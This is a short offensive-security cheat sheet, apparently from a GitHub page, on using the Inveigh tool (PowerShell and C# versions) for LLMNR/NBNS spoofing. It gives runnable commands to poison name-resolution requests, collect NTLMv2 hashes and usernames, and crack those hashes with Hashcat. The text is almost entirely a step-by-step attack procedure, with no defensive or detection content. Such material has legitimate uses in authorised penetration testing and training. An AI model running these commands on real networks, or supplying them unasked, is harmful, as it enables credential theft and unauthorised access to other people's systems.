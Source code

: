 ```yaml
---
legal-banner: true
---
```


### **Running Inveigh in PowerShell**

1. Load the Inveigh module into PowerShell:  
   ```powershell
   Import-Module .\Inveigh.ps1
   ```

2. Check available parameters for the `Invoke-Inveigh` cmdlet:  
   ```powershell
   (Get-Command Invoke-Inveigh).Parameters
   ```

3. Run Inveigh to start spoofing LLMNR and NBNS requests, with console and file output enabled:  
   ```powershell
   Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y
   ```

### **Using InveighZero (C# Version)**

1. Run the C# version of Inveigh:  
   ```bash
   .\Inveigh.exe
   ```

2. Enter the interactive console: Press `ESC` to switch to interactive mode.  

3. Use the following commands within the console for specific information:  

   - Get one captured NTLMv2 hash per user:  
     ```bash
     GET NTLMV2UNIQUE
     ```

   - Get usernames and source IPs/hostnames:  
     ```bash
     GET NTLMV2USERNAMES
     ```

### **Step-by-Step Attack Execution**

1. Start Inveigh with default settings:  
   ```powershell
   Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y
   ```

2. Use the console commands to view captured hashes and usernames.  

3. Captured hashes are saved in the specified output directory. By default, they are stored in:  
   ```plaintext
   C:\Tools
   ```

4. Prepare hashes for cracking. Ensure they are in a format compatible with Hashcat.  

5. Crack the hashes with Hashcat:  
   ```bash
   hashcat -m 5600 hash_file.txt /usr/share/wordlists/rockyou.txt
   ```
